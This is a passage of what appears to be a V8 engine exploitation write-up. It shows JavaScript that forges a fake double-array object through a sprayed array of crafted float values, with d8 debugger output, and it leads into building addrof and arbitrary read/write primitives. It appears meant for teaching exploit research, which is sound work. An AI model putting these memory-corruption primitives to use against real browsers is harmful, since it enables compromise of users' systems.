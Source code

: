 ```js

var fakeobj = re.lastIndex;

// 3.6943954791292419e-311 = 0x000006cd0018ece1
// 0x0018ece1 is address of PACKED_DOUBLE_ELEMENTS map
// 0x000006cd is address of PACKED_DOUBLE_ELEMENTS property

// 0x00282301 is address of our fake double array element (could be any value, adjust to your needs)
// 0x00100000 is the length of our fake double array
// 2.2250738598067922e-308 = 0x0010000000282301

var spray = [
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
];

var fakelen = 0x00100000n;
console.assert(BigInt(fakeobj.length) === fakelen >> 1n);
console.log(`[*] fakeobj double array with length = ${hex(fakeobj.length)}`);
eval("%DebugPrint(fakeobj)")
```

```console
$ ./d8 --allow-natives-syntax ./idk.js
[*] fakeobj double array with length = 0x80000
0x15b5002821a1 <JSArray[524288]>
```

Now, since we have complete control over what object we could fake, let's try
to build other primitives, e.g., `addrof` and caged arbitrary address read/write.

### addrof primitive

To craft `addrof` primitive, we would need another helper array to store our
target object address. Next, we would need to get this array object element
pointer such that we could use it on our fake array object. This value can be
easily obtained from debugger.

```console
$ ./d8 --allow-natives-syntax --shell ./idk.js
[*] fakeobj double array with length = 0x80000
0x37ec002822a9 <JSArray[2]>
V8 version 12.2.0 (candidate)
d8>
```


[^wb]: <https://v8.dev/blog/concurrent-marking>
[^smi-range]: <https://medium.com/fhinkel/v8-internals-how-small-is-a-small-integer-e0badc18b6da>